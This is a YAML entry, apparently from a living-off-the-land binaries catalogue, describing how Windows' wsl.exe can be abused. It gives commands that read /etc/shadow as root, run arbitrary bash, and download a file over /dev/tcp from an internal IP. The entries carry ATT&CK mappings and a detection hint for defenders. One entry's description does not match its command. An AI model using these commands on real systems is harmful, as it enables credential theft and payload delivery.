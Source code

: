 ```yaml
---
Name: Wsl.exe
Description: Windows subsystem for Linux executable
Author: 'Matthew Brown'
Created: '2019-06-27'
Commands:
  - Command: wsl.exe -e /mnt/c/Windows/System32/calc.exe
    Description: Executes calc.exe from wsl.exe
    Usecase: Performs execution of specified file, can be used to execute arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    MitreLink: https://attack.mitre.org/techniques/T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe -u root -e cat /etc/shadow
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands as root without need for password.
    Category: Execute
    Privileges: User
    MitreID: T1202
    MitreLink: https://attack.mitre.org/techniques/T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe --exec bash -c 'cat file'
    Description: Cats /etc/shadow file as root
    Usecase: Performs execution of arbitrary Linux commands.
    Category: Execute
    Privileges: User
    MitreID: T1202
    MitreLink: https://attack.mitre.org/techniques/T1202
    OperatingSystem: Windows 10, Windows 19 Server
  - Command: wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
    Description: Downloads file from 192.168.1.10
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1202
    MitreLink: https://attack.mitre.org/techniques/T1202
    OperatingSystem: Windows 10, Windows 19 Server
Full_Path:
  - Path: C:\Windows\System32\wsl.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Child process from wsl.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Matt
    Handle: '@NotoriousRebel1'
  - Person: Asif Matadar
    Handle: '@d1r4c'
---
```

